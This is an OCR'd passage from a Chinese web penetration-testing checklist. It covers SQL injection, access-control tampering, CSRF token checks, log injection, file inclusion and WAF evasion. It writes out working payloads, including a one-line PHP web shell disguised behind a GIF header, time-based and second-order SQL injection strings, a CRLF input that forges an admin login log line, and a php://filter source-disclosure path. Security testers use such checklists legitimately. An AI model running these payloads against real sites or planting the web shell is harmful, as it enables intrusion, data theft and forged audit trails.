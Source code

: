 1. • 内容检测：图片头+PHP代码拼接（GIF89a+<?php system($_GET[cmd]); ?>  
）  
  
1. 7. **SQL注入数字型盲点检测**  
  
对id=1  
类参数，强制转型测试：id=1'  
→报错则字符型；id=1 and 1=1  
→页面正常则存在注入。**注意**  
：数字型注入常被参数化查询忽略。  
  
1. 8. **权限越权横向测试**  
  
修改请求参数中的用户ID（如user_id=10086  
→user_id=10087  
），观察是否返回他人数据。重点检测订单查询、邮件读取等功能。  
  
1. 9. **CSRF Token逻辑缺陷**  
  
检查Token是否绑定Session：复制已登录用户的Token至另一会话，若仍有效则存在绑定失效风险。  
  
1. 10. **日志注入与隐私泄露**  
  
构造含换行符的输入：Smith%0d%0aLogin Succeeded for admin  
，使日志伪造管理员登录记录。修复需过滤\r\n  
字符。  
  
### 三、复杂场景突破技巧  
1. 11. **JSON注入点检测**  
  
修改Content-Type为application/json  
，提交{"id": "1' or sleep(5)-- "}  
，观察响应延迟或报错。  
  
1. 12. **二阶SQL注入挖掘**  
  
在注册表单输入admin'--  
作为用户名，登录后查看个人资料页是否触发报错或异常数据。  
  
1. 13. **Windows短文件名利用**  
  
在无法获取完整路径时，尝试http://site.com/uploads/WEB~1.PHP  
遍历备份文件（需IIS+NTFS环境）。  
  
1. 14. **线程安全漏洞复现**  
  
对Java静态变量（如static User currentUser  
），用Burp Repeater并发请求，观察数据串扰。  
  
1. 15. **文件包含绕过技巧**  
  
利用PHP的filter  
协议读取源码：php://filter/convert.base64-encode/resource=index.php  
，避免代码直接执行。  
  
### 四、安全防护突破与绕过  
1. 16. **WAF指纹识别与绕过**  
  
1. • **识别**  
：提交'/*!50000select*/ 1  
触发WAF规则，根据拦截页面识别厂商（Cloudflare/Akamai）  
  